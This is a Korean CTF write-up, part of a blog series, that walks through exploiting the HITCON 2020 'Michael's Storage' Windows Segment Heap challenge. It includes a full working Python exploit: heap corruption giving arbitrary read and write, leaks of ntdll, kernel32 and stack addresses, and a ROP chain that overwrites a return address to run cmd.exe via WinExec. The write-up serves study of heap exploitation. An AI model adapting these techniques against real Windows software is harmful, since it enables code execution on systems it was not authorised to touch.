

# 시리즈 바로가기
[Hip하게 Heap 정복하기 Part 1 - Segment Heap(1)](https://hackyboiz.github.io/2021/09/19/l0ch/segment-heap-part1/)
[Hip하게 Heap 정복하기 Part 2 - Segment Heap(2)](https://hackyboiz.github.io/2021/10/10/l0ch/segment-heap-part2/)
[Hip하게 Heap 정복하기 Part 3 - HITCON 2020 Michael's Storage ](https://hackyboiz.github.io/2021/11/21/l0ch/segment-heap-part3/)
[Hip하게 Heap 정복하기 Part 4 - HITCON 2020 Michael's Storage(2)](https://hackyboiz.github.io/2021/12/19/l0ch/segment-heap-part4/)
Hip하게 Heap 정복하기 Part 5 - HITCON 2020 Michael's Storage(3) ← Now!

이전 파트에서 vs subsegment 주소를 구했었죠.  arbitrary read 프리미티브를 편하게 사용할 수 있도록 함수로 구현해볼게요. 덤으로 나중에 쓸 arbitrary write도 `readmeme`의 `getvalue`를 `setvalue` 호출로 수정해  `writemem` 함수도 정의해놓도록 하겠습니다!

```python
def readmem(addr):
    setvalue(7,1,currupt_ptr_off,addr)
    getvalue(6)
    p.recvuntil("Value:")
    return u64(p.recvuntil("\r\n")[:-2].ljust(8, "\x00")[:8])

def writemem(addr,data):
    setvalue(7,1,currupt_ptr_off,addr)
    setvalue(6,3,len(data)+1,data)
```

이제 `readmem`/`writemem` 함수를 호출하는 것으로 arbitrary read/write 프리미티브를 모두 얻었네요.


## Heap base

이제 구한 vs subsegment 주소를 이용해 heap base 주소([_SEGMENT_HEAP](https://hackyboiz.github.io/2021/09/19/l0ch/segment-heap-part1/#SEGMENT-HEAP) 구조체 시작 주소)를 구해보도록 하죠.



 구한 vs subsegment 주소는 [_HEAP_VS_SUBSEGMENT](https://hackyboiz.github.io/2021/10/10/l0ch/segment-heap-part2/#HEAP-VS-SUBSEGMENT) 구조체의 시작 주소입니다.


vs subsegment 주소와 주소의 첫 8 byte인 flink값을 xor 연산하면 heap base([_SEGMENT_HEAP](https://hackyboiz.github.io/2021/09/19/l0ch/segment-heap-part1/#SEGMENT-HEAP))  주소를 leak할 수 있습니다!


스크립트로는 아래와 같이 쓸 수 있겠네요. 

```python
vs_flink = readmem(vs_segment)
VsContext = vs_flink ^ vs_segment
print(hex(VsContext))
heap_base = VsContext - 0x2a0
```


## ntdll

heap base leak도 했으니까 ntdll 주소가 어디 있나 찾아봐야겠죠? ntdll 주소는 [_SEGMENT_HEAP→LfhContext→AffinityModArray](https://hackyboiz.github.io/2021/11/21/l0ch/segment-heap-part3/#HEAP-LFH-CONTEXT)에서 구할 수 있습니다. 구한 heap base에서 `AffinityModArray`까지의 오프셋을 더한 주소를 읽으면 ntdll을 leak할 수 있겠네요 


`AffinityModArray - 0x120a3f` 가 ntdll의 base 주소가 됩니다.

```python
LfhContext = heap_base + 0x340
print(hex(LfhContext))

AffinityModArray = readmem(LfhContext+0x32) << 16
ntdll = AffinityModArray - 0x120000
print("ntdll: "+ hex(ntdll))
```

제 경우에는 `AffinityModArray`  주소값에 `0x0a`가 포함되어 있어 중간에 출력이 짤리더라구요ㅠ 그래서 `0x0a`가 포함된 하위 2바이트를 버리고 나머지를 가져온 다음 자리수를 맞춰주어 ntdll base 주소를 구했습니다. 


## imagebase/kernel32/stack

이후에는 이전 연구글 중 NT Heap을 다루는 윈도우 문제를 풀었던 것처럼 필요한 나머지 주소들을 구하면 됩니다! 구하는 방법은 아래 연구글에 설명되어 있으니 따로 설명없이 스크립트와 결과만.. 절대 익스 과정 다시 쓰기 귀찮아서 링크로 대체한거 맞음(?) 

> [[Research] Pwn하고 Cool하고 Sexy한 Windows 탐방기 Part 4 - HITCON 2019 dadadb](https://hackyboiz.github.io/2021/04/18/l0ch/pwncoolsexy-part4/#Imagebase)

링크를 참고해 나머지 주소들을 구하면 됩니다.

- 바이너리 imagebase
- kernel32 base, WinExec
- stack

```python
# leak binary imagebase
pebldr = ntdll+0x16a4c0
immol = readmem(pebldr + 0x20)
imagebase = readmem(immol+0x28) - 0x2364
print(hex(imagebase))

# leak kernel32 base, winexec address
iat = imagebase + 0x3000
readfile = readmem(iat)
kernel32 = readfile - 0x24ee0
winexec = kernel32 + 0x67200

# leak stack
peb = readmem(ntdll + 0x16a428) - 0x240
teb = peb+0x1000
stack = readmem(teb+0x11) << 8
stack_end = stack + (0x10000 - (stack & 0xffff))

print("binary imagebase: "+ hex(imagebase))
print("kernel32: "+hex(kernel32))
print("peb:" +hex(peb))
print("teb:" +hex(teb))
print("stack:"+hex(stack))
```


# Exploit

필요한 주소를 모두 구했으면 익스는 간단한 ROP입니다. 먼저 arbitrary read를 이용해 return address가 저장된 스택의 주소를 구합니다.


`binary + 0x1ca7` 은 바로 직전 호출된 `sub_1060` 함수의 return address에 저장되는 주소입니다. 스택 주소를 알고 있으니 스택에서 `binary + 0x1ca7` 값이 저장된 주소를 찾으면 그 주소가 return address 주소라고 볼 수 있겠네요. 

```python
# find return address to overwrite
ret_addr = imagebase + 0x1ca7
start_addr = stack_end - 8

for i in range(0x200):
    addr = start_addr - 8*i
    if readmem(addr) == ret_addr:
        ret = addr
        break
```

아까 문자열 청크 `cmd.exe`를 실행하기 위해 실행할 cmd 바이너리 경로를 `.data` 섹션에 써준다음, 가젯을 구해 구성한 ROP 페이로드를 ret 주소에 overwrite하면?

```python

buf = imagebase + 0x5800
writemem(buf,"C:\\Windows\\system32\\cmd.exe\x00")

ret_gadget = imagebase + 0x1b11
pop_rcx = ntdll + 0x8c541 # pop rcx; pop r8; pop r9; pop r10; pop r11; ret
rop = p64(pop_rcx) + p64(buf) +"b"*32+ p64(ret_gadget) + p64(winexec)  + "b"*8

writemem(ret,p64(ret_gadget)*10 + rop)

p.interactive()
```


`cmd.exe`가 정상적으로 실행되고 `type flag.txt`로  `hitcon{test}` 플래그를 읽을 수 있습니다! 

segment heap을 이해하고 overlap chunk만 만들 수 있다면 익스 과정은 직관적이고 쉬운 문제였다고 할 수 있겠네요. 


# 전체 스크립트

```python
from winpwn import * 

def alloc(types,size):
	p.recvuntil("Your choice:")
	p.sendline("1")
	p.recvuntil("Type of storage:")
	p.sendline(str(types))
	p.recvuntil("Size:")
	p.sendline(str(size))

def getvalue(storage_idx):
    p.recvuntil("Your choice:")
    p.sendline("3")
    p.recvuntil("Storage index:")
    p.sendline(str(storage_idx))

def destory(storage_idx):
    p.recvuntil("Your choice:")
    p.sendline("4")
    p.recvuntil("Storage index:")
    p.sendline(str(storage_idx))


def setvalue(storage_idx, chunk_type, idx,data):
	p.recvuntil("Your choice:")
	p.sendline("2")
	p.recvuntil("Storage index:")
	p.sendline(str(storage_idx))
	if chunk_type == 3:
		p.recvuntil("Size:")
		p.sendline(str(idx))
		p.recvuntil("Value:")
		p.sendline(data)
	else:
		p.recvuntil("Index:")
		p.sendline(str(idx))
		p.recvuntil(":")
		p.sendline(str(data))
        

context.log_level ="debug"
context.arch = "amd64"

p = process("./MichaelStorage.exe")

#windbgx.attach(p)#, script="ba 00007ff6`aa6d1ca7")
# 00007ff6`aa6d0000

alloc(0,0x8000) # int 0
alloc(1,0x1337) # secret 1
alloc(0,0x8000) # int 2

alloc(3,0x20000-1) # str 3 (overlap chunk)
alloc(0, 0x3bd0) #int 4 
alloc(0,0x8000) # int 5

# 0x1f017900000 : _HEAP_PAGE_SEGMENT -> Segment base
# segment base + 0x23050 : chunk 2(secret storage)
# segment base + 34010 : chunk 3(int storage)
secret_off = 0x23050
int_1_size_off = 0x2010
target_seg_desc_off = 0x698

setvalue(1,1, -((secret_off-target_seg_desc_off)/8)-1,0x4204ffbd00000103) # overwrite size type 1 0x21->0x42
destory(2) # free 0x42 
alloc(0,0x8000) # int 2 (realloc)
alloc(3,0x200) # str 6
alloc(1,0xbeef) # secret 7


setvalue(3, 3, 0x40+1, "a"*0x40)
currupt_size_off = -0x4b
currupt_ptr_off = -0x4a
setvalue(7,1,currupt_size_off,0x6161616161616161)

getvalue(3)
p.recvuntil("a"*0x48)
vs_segment = u64(p.recvuntil("\r\n")[:-2].ljust(8,"\x00")) - 0x80
print("vs_segment:",hex(vs_segment))

setvalue(7,1,currupt_size_off,0x200)

def readmem(addr):
    setvalue(7,1,currupt_ptr_off,addr)
    getvalue(6)
    p.recvuntil("Value:")
    return u64(p.recvuntil("\r\n")[:-2].ljust(8, "\x00")[:8])

# leak haep base
vs_flink = readmem(vs_segment)
VsContext = vs_flink ^ vs_segment
print(hex(VsContext))
heap_base = VsContext - 0x2a0

# leak ntdll base
# _SEGMENT_HEAP -> LfhContext -> AffinityModArray
LfhContext = heap_base + 0x340
print(hex(LfhContext))
AffinityModArray = readmem(LfhContext+0x32) << 16
print(hex(AffinityModArray))
ntdll = AffinityModArray - 0x120000

# leak binary imagebase
pebldr = ntdll+0x16a4c0
immol = readmem(pebldr + 0x20)
imagebase = readmem(immol+0x28) - 0x2364
print(hex(imagebase))

# leak kernel32 base, winexec address
iat = imagebase + 0x3000
readfile = readmem(iat)
kernel32 = readfile - 0x24ee0
winexec = kernel32 + 0x67200

# leak stack
peb = readmem(ntdll + 0x16a428) - 0x240
teb = peb+0x1000
stack = readmem(teb+0x11) << 8
stack_end = stack + (0x10000 - (stack & 0xffff))

print("binary imagebase: "+ hex(imagebase))
print("kernel32: "+hex(kernel32))
print("peb:" +hex(peb))
print("teb:" +hex(teb))
print("stack:"+hex(stack))


# find return address to overwrite
ret_addr = imagebase + 0x1ca7
start_addr = stack_end - 8

for i in range(0x200):
    addr = start_addr - 8*i
    if readmem(addr) == ret_addr:
        ret = addr
        break

def writemem(addr,data):
    setvalue(7,1,currupt_ptr_off,addr)
    setvalue(6,3,len(data)+1,data)

buf = imagebase + 0x5800
writemem(buf,"C:\\Windows\\system32\\cmd.exe\x00")


ret_gadget = imagebase + 0x1b11
pop_rcx = ntdll + 0x8c541 # pop rcx; pop r8; pop r9; pop r10; pop r11; ret
rop = p64(pop_rcx) + p64(buf) +"b"*32+ p64(ret_gadget) + p64(winexec)  + "b"*8

writemem(ret,p64(ret_gadget)*10 + rop)

p.interactive()
```


# 마치며

part 1이 올라온 날이 9월이었는데, 해가 지나서야 마무리하게 되었습니다.. 게으른 저를 반성하며 다음 연구글로 찾아오도록 하겠습니다ㅠㅠ 2022년에도 열심히 공부해보도록 해요 :) 안녕!